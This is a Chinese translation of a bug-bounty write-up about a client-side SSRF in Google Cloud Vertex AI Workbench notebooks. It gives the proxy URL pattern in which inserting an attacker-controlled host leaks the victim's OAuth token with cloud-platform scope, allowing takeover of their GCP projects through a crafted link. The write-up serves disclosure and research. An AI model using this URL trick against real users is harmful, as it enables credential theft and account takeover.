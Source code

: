 #  客户端 SSRF 到 Google Cloud 项目接管 [Google VRP]

枇杷五星加强版  [ 黑伞安全 ](javascript:void\(0\);)

**黑伞安全** ![]()

微信号 hack_umbrella

功能介绍 安全加固 渗透测试 众测 ctf 安全新领域研究

____

___发表于_

收录于合集

翻译自https://blog.geekycat.in/client-side-ssrf-to-google-cloud-project-takeover/

  

这篇文章是关于我和Sivanesh于 2022 年在 Google Cloud 中发现的错误的一系列文章的一部分。

Google Cloud 提供Vertex AI，可让您构建、部署和扩展机器学习模型。除了各种其他功能之外，Vertex AI 还提供了“
Workbench ”功能。Workbench 使您能够在云上创建基于 Jupyter Notebook 的开发环境。如果您使用过 Jupyter
Notebook，您就会知道这里可能会出现很多问题。所以我决定深入挖掘。

Workbench 为您提供了两种选择：

  * 托管笔记本实例是托管在 Google 托管环境中的笔记本。这意味着您对它没有太多控制权。

  * 用户管理的笔记本可以高度自定义，并且完全由用户管理。

## 初始错误

当您创建笔记本时，它会给您一个实例https://{random-number}-dot-us-
central1.notebooks.googleusercontent.com/

由于托管笔记本位于 Google 托管环境（沙盒）中，因此它们无法访问您的 Google 云数据。因此，您必须授予托管笔记本通过 OAuth 流访问您的
Google Cloud 数据的权限。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714181022.png)范围：https://www.googleapis.com/auth/cloud-
platform

身份验证后，我决定使用该应用程序来了解流程。然后我偶然发现了这个特定的 URL：

https://{INSTANCE-ID}-dot-us-
central1.notebooks.googleusercontent.com/aipn/v2/proxy/compute.googleapis.com/something

嗯，我觉得有 SSRF 的味道。请求原始 URL 会产生一个响应，该响应看起来像是发送到
的经过身份验证的请求的输出compute.googleapis.com。根据以前的经验，我知道这些端点使用 Authorization 标头作为凭据。

我尝试更改compute.googleapis.com为geekycat.in.
但它不起作用，看起来有些白名单已经到位。经过一番摸索后，我发现https://{INSTANCE-ID}-dot-us-
central1.notebooks.googleusercontent.com/aipn/v2/proxy/{attacker.com}/compute.googleapis.com/绕过检查，这很容易😅

Authorization我的服务器的日志显示它收到了标头中带有令牌的请求。我很快验证了访问令牌。它确实拥有Cloud-
Platform我的谷歌帐户的权限。此外，易受攻击的端点是GET没有 CSRF
保护的请求（很常见）。这意味着，通过欺骗受害者点击精心设计的链接，攻击者可以获得授权令牌并获得对受害者所有 GCP 项目的完全访问权限。
